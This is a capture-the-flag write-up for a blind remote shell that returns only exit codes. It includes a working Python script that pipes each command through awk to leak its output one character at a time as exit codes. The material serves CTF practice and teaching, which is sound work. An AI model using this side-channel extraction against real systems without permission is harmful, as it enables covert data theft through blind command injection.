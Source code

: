 ## Problem

When we open this problem we are presented with a command input that is
definitely running bash, but all of our commands are not returning any stdout
or stderr. When we run a command, we only get the exit code.

```text
~ » nc jh2i.com 50025
ls -la
0... Well this is awkward...
```

It is also good to note that the challenge hints at using awk for this
challenge, but this is not the intended solution `:p`.

## Solution

For the solution I decided to take use of one major functionality in awk,
the ability to set error codes.

I also found a way to convert a character to it's ASCII int value.

Combining these together with python, I run a command and then get the first
char and set that as the exit code. Then the next char. Then the next char,
etc.


```python
import socc #https://github.com/f3rn0s/socc

s = socc.socc("jh2i.com", 50025)

def gen_commands(command, line):
    commands = []
    for offset in range(0, 100):
        commands.append(
        # This defines a function ord
        # awk 'BEGIN{for(n=0;n<256;n++)ord[sprintf("%c", n)]=n}

        # This takes 1 character, starting at index 1, and sets that as the
        # exit code
        #awk 'FNR == 1{exit(ord[substr($0, 1, 1)])}'
            command +
            "| awk 'BEGIN{for(n=0;n<256;n++)ord[sprintf(" + '"%c"' +
            ",n)]=n}FNR == " + str(line) + "{exit(ord[substr($0, " +
            str(offset) + ", 1)])}'"
        )
    return commands

for line in range(0, 15): #Guess how many lines there will be
    for command in gen_commands("ls -l", line):
        s.send(command)
        return_int = int(s.recv().split("...")[0])

        #If there is a null byte, we end our line and start the next one
        if return_int != 0:
            print(chr(return_int), end='')
        else:
            print()
            break
```
